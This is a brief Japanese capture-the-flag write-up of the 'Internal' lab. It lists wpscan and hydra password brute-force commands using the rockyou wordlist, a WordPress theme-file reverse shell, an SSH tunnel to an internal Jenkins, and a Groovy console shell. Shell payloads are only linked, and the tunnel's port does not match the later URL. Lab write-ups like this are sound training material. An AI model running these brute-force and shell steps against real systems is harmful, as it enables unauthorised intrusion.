 ```yaml
---
title: "Internal"
date: 2024-03-20T08:06:49+09:00
draft: false
---
```


### user

- wordpress っぽいので wpscan
  - ```wpscan --url http://internal.thm/blog -e```
  - ```admin``` が見つかる
  - ```wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt```
  - パスワードも見つかる
- wordpress にログインできた
  - ```Appearance``` から ```404.php``` を編集してリバースシェルを入れる([WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/))
  - ```http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php``` にアクセス
- aubreanna にしか権限がないため，user.txt が見れない
  - 分からなすぎるので writeup を見ると，```/opt``` にパスワードがあるらしい(は？)
  - ```su aubreanna``` で権限昇格

### root

- aubreanna の /home に jenkins.txt がある

```shell
aubreanna@internal:~$ cat jenkins.txt
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

- ssh トンネル
  - ```ssh -L 1234:172.17.0.2:8080 aubrenna@internal.thm```
  - ```http://127.0.0.1:8080``` で jenkins にアクセスできる
  - ```hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt```
  - script console が見つかる
  - リバースシェルを埋めて ```nc```[Abusing Jenkins Groovy Script Console to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
